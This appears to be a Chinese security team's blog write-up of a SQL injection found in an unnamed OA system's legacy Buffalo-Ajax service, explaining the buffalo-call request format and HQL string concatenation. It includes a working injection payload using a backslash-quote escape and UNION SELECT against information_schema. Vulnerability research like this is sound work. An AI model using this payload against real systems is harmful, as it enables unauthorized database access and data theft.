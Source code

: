 #  记某OA系统Ajax旧服务的0day漏洞挖掘   
原创 chobits02  Code4th安全团队   2025-01-16 07:29  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQGQG6ibYpsQ9hibUNQ9JogaBM4ETcLDdyuTknYvxjLbGCEQFKUEwbwpummEIZzqUcA3Mhaj6yJqd9Q/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
最近  
在最近研究某OA漏洞时，遇到了一种特殊的请求方法，请求体类似如下：  
```
<buffalo-call> <method>方法名称</method> 这里填充请求参数 </buffalo-call>
```  
  
这是一种类似XML格式的请求方法，在网上都没有搜索到审计该OA漏洞代码的文章，没有提及到为什么这么去请求，以及如何构造这类请求。本文我将以代码+漏洞的形式，解释Ajax框架和漏洞成因。  
  
首先buffalo-call这种请求方法，是Buffalo-Ajax框架的一种远程调用方法。什么是Buffalo-Ajax？Buffalo是一个前后贯通的完整的java Ajax框架，不过内容比较老旧，在2007年以后就没有再进行更新过了。  
  
参考网站：  
Buffalo AJAX - Home  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZ75dtZAuBFhe9NRict5OvKVibMnG5CibE0pkhXkPKw21OjKg1khao7RpIg/640?wx_fmt=png&from=appmsg "")  
```
Buffalo通过Servlet的init过程初始化配置暴露给Buffalo远程调用的服务（支持内置的buffalo-service.properties配置及spring配置），
根据request.getPathInfo()所得到的URL规则，如“/buffalo/simpleService”，
最后客户端通过Buffalo.Reply解析返回的结果，并实现与UI的交互。
```  
  
而Buffalo-Ajax远程调用如下：  
```
buffalo.remoteCall({Service.Method}, {Params}, {CallBackFunction})
```  
  
那根据Buffalo的描述，Service具体对应什么方法，还要去  
buffalo-service.properties里面查看  
  
这里查看下OA里面的buffalo-service.properties配置，可以看到对应服务和方法所在的包名称  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZoicpEBGM5KoG8v20E06VhH0Jy2JRMDiamnOicnoel5M7e39kiafdicUIG5A/640?wx_fmt=png&from=appmsg "")  
  
而Buffalo-Ajax可以解析的标签列表如下  
```
  protected static String tagName(int tag) {
    switch (tag) {
      case 0:
        return "null";
      case 1:
        return "boolean";
      case 2:
        return "int";
      case 3:
        return "long";
      case 4:
        return "double";
      case 6:
        return "string";
      case 9:
        return "map";
      case 10:
        return "list";
      case 11:
        return "type";
      case 12:
        return "length";
      case 13:
        return "ref";
      case 15:
        return "buffalo-call";
      case 17:
        return "fault";
      case 18:
        return "method";
      case 5:
        return "date";
      case -1:
        return "end of file";
    } 
    return "unknown " + tag;
  }
```  
  
前提条件准备完毕，咱们来审计代码。在某个服务中找到了public方法如下（方法名称和参数名称已脱敏）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZ7TK14LWkbz4aUJel8nwiaHKS7nYkYznXs5gicBBwwic0vuF7KFvKOibn3g/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下，其中存在  
hql.append("'" + id + "'");  
  
但是这也不是直接的SQL语句，从from xxx where xxx in这个语法可以看出是HQL语法，是Hibernate框架的数据库查询语句  
  
这里数组的id被拼接到in的后面，最后才在末尾添加')'进行闭合  
  
可以尝试闭合造成SQL注入，但是首先Buffalo Ajax的String[]数组类型远程调用怎么传参呢？参考官方文档如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZ1maFmq8sxCEF9M0Lfyq8cLSUnXds2FKKsC2XTa4PV3LKicMYL8G99AQ/640?wx_fmt=png&from=appmsg "")  
  
首先需要外嵌type，指定引入的类，之后再加入length和具体的请求参数。看起来总感觉有些臃肿  
  
要让Hibernate框架闭合，这里参考了文章  
HQL注入深入利用  
  
其中有一种让Hibernate引擎直接在转移成SQL语句还能闭合的方法，就是传入'\'，让其作为一个字符串整体进行处理变成Mysql语句  
```
<buffalo-call>
<method>xxxx</method>
<list>
<type>xxxx</type>
<length>2</length>
<string>1</string>
<string>1\'') union select table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name,table_name from information_schema.tables where table_schema= database() LIMIT 1 OFFSET 0#</string>
</list>
</buffalo-call>
```  
  
测试用'\'还是可以注入的，但是<string>标签里面不用再加+，空格是可以正常解析的，所以直接在最后一个string传参的地方加上闭合语句就行，这里可以直接union查询出数据  
  
这里用查询当前数据库名称和当前用户名称进行验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZia4PIzwpDY6iaPj4jHQTG808lAElD5QPuMdHFckIibhuZ3viaHrI2wb3ZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZKeuwAKib5OEB1DFW4dOh04AhyohvFqHVyQxOUaElQLQvjCbVCl80YTg/640?wx_fmt=png&from=appmsg "")  
  
验证可以执行任意SQL语句  
  
  
  
**团队新年活动，Freebuf帮会成员免费加入抽奖！**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZVcJhb5P1eR7ic8e7RNkpgUmrwTO1EWgJCNsR1n6I7YvFHcImPKT4UUw/640?wx_fmt=jpeg&from=appmsg "")  
  
帮会加入地址，新春25%折扣活动  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQ1lxmB1M1iadvsX0RicMMEMZjqPdPwxR8vyQEeKPo73DEX3RJrEcawWBBJawXUcR3wIsC3Ab7vmyUA/640?wx_fmt=png&from=appmsg "")  
  
  
**SRC漏洞挖掘出洞课程**  
，是由团队内部师傅根据实际挖洞经历整合的适合挖掘漏洞但是缺乏思路、刚接触学习漏洞挖掘不出漏洞的师傅们的漏洞挖掘教程。  
  
第一期课程价格  
199  
，这价格还要什么自行车？课程正在持续更新中~  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247485154&idx=1&sn=90f1bce91e53a5bf538bdef11fe15b2d&chksm=c2516dcbf526e4dd6d75254b70743d30902a7f0288d001148a41cc05e2d0b9fb09702d2ea03e&scene=21#wechat_redirect)  
  
  
  
END  
  
  
  
关注Cod  
e4th安全团队  
  
了解更多网络安全内容~  
  
  
